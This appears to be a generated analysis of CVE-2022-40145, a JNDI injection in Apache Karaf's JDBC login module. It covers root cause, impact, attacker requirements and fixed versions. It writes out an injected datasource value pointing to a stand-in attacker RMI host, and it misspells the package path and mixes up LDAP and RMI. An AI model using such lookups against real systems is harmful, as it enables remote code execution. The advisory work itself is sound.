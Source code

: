 Based on the provided content, here's an analysis of CVE-2022-40145:

**Root Cause of Vulnerability:**

The vulnerability stems from the lack of input sanitization in the `jaas.modules.src.main.java.porg.apache.karaf.jass.modules.jdbc.JDBCUtils#doCreateDatasource` method. This method uses `InitialContext.lookup(jndiName)` without proper filtering of the `jndiName`.

**Weaknesses/Vulnerabilities Present:**

*   **JNDI Injection:** The primary vulnerability is a JNDI injection. An attacker can manipulate the `jndiName` to point to a malicious JNDI resource, specifically by modifying `options.put(JDBCUtils.DATASOURCE, "osgi:" + DataSource.class.getName())` to something like `options.put(JDBCUtils.DATASOURCE,"jndi:rmi://x.x.x.x:xxxx/Command")`.
*   **Lack of Input Validation:** The application fails to validate or sanitize the JNDI URL, allowing an attacker to inject arbitrary JNDI lookups.

**Impact of Exploitation:**

*   **Remote Code Execution (RCE):** By exploiting the JNDI injection vulnerability, an attacker can achieve remote code execution on the server where Apache Karaf is running. The attacker can force the server to lookup a malicious JNDI resource, which could then execute arbitrary code.

**Attack Vectors:**

*   **Manipulation of Configuration:** The attacker needs to be able to influence the configuration used by the JDBC Login Module, which specifically involves modifying the `options` to change the `JDBCUtils.DATASOURCE` value.
*   **Malicious LDAP Server:** The attacker needs control of the LDAP server that the injected JNDI URL points to.

**Required Attacker Capabilities/Position:**

*   **Configuration Access:** The attacker needs to be able to modify the JDBC Login Module configuration to inject the malicious JNDI URL. This could involve having access to the configuration files or exploiting an existing vulnerability that allows configuration manipulation.
*   **Network Access:** The attacker needs to have network access to the target server and must control a malicious JNDI resource (e.g., an RMI server serving the malicious payload) reachable from the vulnerable server.

**Additional Notes:**

*   The vulnerability is triggered when a configuration uses a JNDI LDAP data source URI.
*   The vulnerability exists in all versions of Apache Karaf prior to 4.3.8 or 4.4.2.
*   The provided fix is available in git revisions: `3819f48341` and `2a933445d1`.
*   The issue was reported by Xun Bai.